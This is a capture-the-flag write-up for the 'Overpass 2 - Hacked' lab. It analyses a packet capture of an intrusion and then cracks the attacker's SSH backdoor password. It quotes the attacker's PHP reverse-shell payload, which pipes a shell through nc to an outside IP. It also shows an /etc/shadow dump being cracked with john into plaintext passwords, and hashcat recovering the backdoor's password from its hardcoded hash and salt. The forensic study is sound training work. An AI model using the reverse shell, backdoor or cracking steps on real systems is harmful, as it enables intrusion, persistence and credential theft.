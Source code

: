 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

---

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

---

### 1 - Forensics - Analyse the PCAP

One of the best practices to analyze pcap files is to follow TCP streams and see what data is being exchanged over which protocol and so on.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/190a6772-f0ea-4206-a3b1-1659c80eac41)


To navigate more easily between streams, use the stream field in the bottom right corner of the stream window.\
We can see that in stream 1, the attacker is uploading a php file to `/development/`. Based on the content of the file, the payload is php reverse shell.
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

TCP stream number 2 shows that the attacker requested the malicious php file to get that reverse shell.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/e064e9a8-1c86-4605-8d01-322031992d2b)

Moving to stream number 3. This is where we can see the full action of the attacker once got a foothold into the machine.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/4ed1baa0-b59f-404c-9d65-a32f1a479b5f)

The attacker first switched to James' account to which he has access to the password. Then he listed commands that can be executed by James with root privileges (`sudo -l`). Because James can execute whatever command as root (bad practice), the attacker was able to dump all password hashes from `/etc/shadow` and install an `ssh-backdoor` for persistence. [The backdoor](https://github.com/NinjaJc01/ssh-backdoor) runs an SSH server on port 2222 that the attacker can connect to as he possesses a valid password as we'll see below.

Back to the password hashes, we can crack 4 of them using the `fasttrack` wordlist.
```
$ john hashes.txt -wordlist:fasttrack.txt 

Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
abcd123          (szymex)
secret12         (bee)
1qaz2wsx         (muirland)
```

### 2 - Research - Analyse the code

Getting the source code from Github
```
$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

In the `main.go` file we find the default hash and the hardcoded salt for the backdoor.
```go
<...snip...>
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

<...snip...>

func verifyPass(hash, salt, password string) bool {
        resultHash := hashPassword(password, salt)
        return resultHash == hash
}

<...snip...>

func passwordHandler(_ ssh.Context, password string) bool {
        return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

Back to our pcap file, the attacker changed the default hash of the backdoor. The flag `-a` is used for this purpose as we can see from the source code.

```go
<...snip...>
        flaggy.String(&hash, "a", "hash", "Hash for backdoor")
<...snip...>
```
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/61ab58a0-2595-41e3-a29f-e2ca921b6e84)

The hash value represents the passwords that will be required when connecting to the ssh server. Based on `main.go`, SHA512 is used, and the hash is computed on the concatenation `password + salt`. Thus, to crack that hash using `hashcat`, our hash file will contain `<hash>:<salt>`, the mode is 1710, and the wordlist is `rockyou.txt`:
```
$ hashcat -m 1710 hash rockyou.txt

<...snip...>
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
<...snip...>
```





